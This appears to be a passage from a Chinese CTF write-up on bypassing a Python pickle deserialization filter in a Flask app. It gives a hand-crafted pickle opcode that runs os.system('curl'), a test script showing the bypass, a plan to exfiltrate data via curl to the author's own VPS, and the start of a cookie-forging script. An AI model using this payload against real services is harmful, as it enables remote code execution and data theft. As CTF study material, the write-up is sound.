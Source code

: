 直接执行 whoami 不行, 因为有字符 i, 末尾的 o 也会被过滤

然后尝试把 `o.` 改成 `os`, 这样 `os` 在检测的时候会被提前替换成 `Os` 从而绕过过滤

```python
(cos
system
S'curl'
os
```

测试脚本

```python
import pickle

opcode = b'''(cos
system
S'curl'
os'''

a = opcode.replace(b"builtin", b"BuIltIn").replace(b"os", b"Os").replace(b"bytes", b"Bytes")
if b'R' in a or b'i' in a or b'o' in a or b'b' in a:
    raise pickle.UnpicklingError("R i o b is forbidden")
pickle.loads(opcode)
```

虽然报错了, 但是命令能够执行成功

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209171904030.png)

之后就简单了, 测试后发现服务器能够出网, 想着用 dnslog 外带数据

burp 和 ceye.io 以及 dnslog.cn 的网站域名或多或少都会有 i o b 这三个字符, 于是就用了自己的 vps

魔改了一下 `flask_session_cookie_manager` 方便构造 cookie

```python
#!/usr/bin/env python3
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast
import base64
import pickle

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key
```
